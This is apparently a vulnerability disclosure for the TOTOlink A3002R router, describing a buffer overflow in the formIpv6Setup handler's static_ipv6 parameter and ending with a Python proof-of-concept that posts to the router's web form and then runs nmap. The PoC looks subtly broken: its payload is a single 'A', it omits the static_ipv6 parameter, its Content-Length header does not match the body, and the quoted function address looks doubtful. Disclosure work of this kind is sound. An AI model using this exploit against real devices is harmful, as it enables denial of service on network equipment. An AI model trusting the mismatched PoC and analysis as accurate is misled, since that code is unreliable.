 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_ipv6` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![fig1](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-16_20-55-45.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v35` variable is passed to `v49` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_ipv6` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_ipv6" data, and `strcpy` copies the string pointed to by `v35` to `v49` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v35` exceeds the size of the `v49` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.


An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_ipv6` string, potentially causing the program to crash.

![fig2](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-16_20-59-21.png)
# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1{}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
